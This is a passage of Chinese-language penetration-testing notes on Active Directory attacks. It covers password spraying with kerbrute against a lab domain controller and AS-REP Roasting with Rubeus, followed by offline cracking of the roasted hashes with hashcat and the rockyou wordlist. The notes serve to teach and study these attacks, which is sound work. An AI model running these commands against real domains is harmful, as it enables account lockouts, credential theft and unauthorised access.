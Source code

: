 ![](../assets/post_img/Snipaste_2024-05-06_15-54-37.png)

### <span style="color:#F98B26">2.1.3.3 密码爆破</span>

```
密码爆破是指使用域用户与多个密码进行碰撞.
在碰撞过程中,当密码错误尝试次数超过组策略中指定的次数就会导致账户被锁定.
```

```
攻击流程:

使用kerbrute工具进行爆破

kerbrute bruteuser --dc 192.168.0.56 -d blackops.local passwords.txt fsociety
```

![](../assets/post_img/Snipaste_2024-05-06_16-03-59.png)

### <span style="color:#F98B26">2.1.3.4 存在不需要预身份认证</span>

```
1. AS-REP Roasting攻击

如果用户开启了不使用kerberos预认证,在AS-REP 阶段,可以在任意一台能访问DC的机器(域内域外均可)上请求该用户TGT,
此时DC不会做校验就将TGT和Session Key返回,
则可对Session Key (经过用户的RC4-HMAC密码加密) 进行离线暴力破解,进而获取hash以及密码明文.
```
https://blog.netwrix.com/2022/11/03/cracking_ad_password_with_as_rep_roasting/
```
攻击流程:

Rubeus.exe asreproast /format:hashcat /outfile:hashes.txt

hashcat -m 18200 --force -a 0 hashes.txt /usr/share/wordlists/rockyou.txt

```